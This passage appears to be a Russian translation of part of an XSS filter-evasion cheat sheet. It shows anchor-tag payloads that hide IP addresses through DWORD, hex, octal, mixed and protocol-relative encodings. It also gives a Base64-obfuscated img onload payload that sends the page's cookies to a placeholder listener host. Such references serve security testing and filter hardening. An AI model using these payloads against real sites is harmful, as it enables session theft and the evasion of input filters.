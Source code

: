 Примечание: существуют и другие варианты кодировки DWORD - смотрите калькулятор обфускации IP-адресов ниже для получения более подробной информации:

```html
<A HREF="http://1113982867/">XSS</A>
```

#### Hex Кодирование

Общий допустимый размер каждого числа составляет где-то около 240 символов, как вы можете видеть на второй цифре, и поскольку шестнадцатеричное число находится в диапазоне от 0 до F, начальный ноль в третьей шестнадцатеричной кавычке не требуется:

```html
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

#### Octal Кодирование

Опять же, отступы разрешены, хотя общее количество символов в каждом классе должно превышать 4 - как в классе A, классе B и т.д:

```html
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

#### Base64 Кодирование

```html
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
```

#### Mixed Кодирование

Давайте смешаем и сопоставим базовую кодировку и добавим несколько табуляций и переводов строк (почему браузеры это разрешают, я никогда не узнаю). Табуляции и переводы строк работают, только если они заключены в кавычки:


```html
<A HREF="h
tt  p://6	6.000146.0x7.147/">XSS</A>
```


#### Обход разрешения протокола

`//` переводится в `http://`, что экономит еще несколько байт. Это действительно удобно, когда также возникает проблема с пробелом (двух меньших символов может быть недостаточно), и позволяет легко обойти регулярные выражения типа `(ht|f)tp(s)?://` (спасибо Ozh за часть этого). Вы также можете изменить `//` на `\\\\`. Однако косые черты должны оставаться на месте, иначе это будет интерпретироваться как относительный URL-адрес:

```html
<A HREF="//www.google.com/">XSS</A>
```

#### Удаление CNAME

